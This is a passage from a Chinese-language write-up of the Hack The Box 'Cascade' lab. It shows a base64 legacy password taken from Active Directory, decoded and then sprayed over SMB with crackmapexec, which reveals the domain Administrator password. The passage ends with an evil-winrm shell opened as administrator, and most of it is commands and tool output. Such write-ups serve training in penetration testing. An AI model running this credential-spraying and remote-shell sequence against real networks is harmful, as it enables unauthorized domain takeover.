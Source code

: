 cn                                                                              DisplayName  cascadeLegacyPwd
--                                                                              -----------  ----------------
Deleted Objects
CASC-WS1...
Scheduled Tasks...
{A403B701-A528-4685-A816-FDEE32BDDCBA}...                                       Block Potato
Machine...
User...
TempAdmin...                                                                    TempAdmin    YmFDVDNyMWFOMDBkbGVz

```

得到一个密码：```YmFDVDNyMWFOMDBkbGVz```

base64解密以后是：```baCT3r1aN00dles```

哈希喷洒这个密码
```
┌──(root💀kali)-[~/htb/Cascade]
└─# crackmapexec smb 10.10.10.182  -u user.txt -p 'baCT3r1aN00dles'     
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\Administrator:baCT3r1aN00dles (Pwn3d!)

```

是管理员的密码

拿到管理员权限

```
┌──(root💀kali)-[~/htb/Cascade]
└─# evil-winrm -i 10.10.10.182 -u 'administrator' -p 'baCT3r1aN00dles'                                                                                                                                                                  1 ⨯

Evil-WinRM shell v3.2

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cascade\administrator

```